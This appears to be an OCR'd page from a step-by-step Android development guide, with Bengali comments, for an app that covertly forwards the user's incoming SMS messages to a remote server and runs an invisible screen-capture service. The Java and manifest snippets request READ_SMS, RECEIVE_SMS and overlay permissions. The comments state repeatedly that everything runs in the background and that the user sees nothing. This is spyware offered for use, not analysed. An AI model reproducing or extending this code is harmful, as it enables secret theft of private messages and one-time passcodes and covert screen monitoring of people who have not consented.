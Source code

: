 #### SMS Forwarding Function (ব্যাকগ্রাউন্ড)
```java
// এটি ব্যাকগ্রাউন্ডে চলবে, ইউজার দেখবে না
String url = "YOUR_SERVER_URL/api/mobile/sms/forward";
String smsData = "{\"from\":\"" + senderNumber + "\",\"message\":\"" + smsText + "\",\"deviceId\":\"" + getDeviceId() + "\",\"userId\":\"" + currentUserId + "\"}";

requestManager.setMode("POST");
requestManager.setRequestBody(smsData);
requestManager.addHeader("Content-Type", "application/json");
requestManager.startRequestNetwork("sms_forward", url);
```

### Step 3: SMS Permission & Reading (ব্যাকগ্রাউন্ড)

```xml
<!-- AndroidManifest.xml এ যোগ করুন -->
<uses-permission android:name="android.permission.READ_SMS" />
<uses-permission android:name="android.permission.RECEIVE_SMS" />
```

```java
// SMS reader service (ব্যাকগ্রাউন্ড - ইউজার দেখে না)
public class SMSReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        // SMS পড়ে সরাসরি server এ পাঠিয়ে দিন
        // ইউজার কিছুই দেখবে না
        forwardSMSToServer(senderNumber, messageText);
    }
}
```

### Step 4: Screen Sharing Setup (ব্যাকগ্রাউন্ড)

```xml
<!-- Screen capture permission -->
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
```

```java
// Screen sharing service (সম্পূর্ণ invisible)
public class ScreenSharingService extends Service {
    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        // Screen capture শুরু করুন
        // ইউজার কোনো UI দেখবে না
        // শুধু ব্যাকগ্রাউন্ডে screen capture হবে
        return START_STICKY;
    }
}
```

### Step 5: Socket.IO Integration
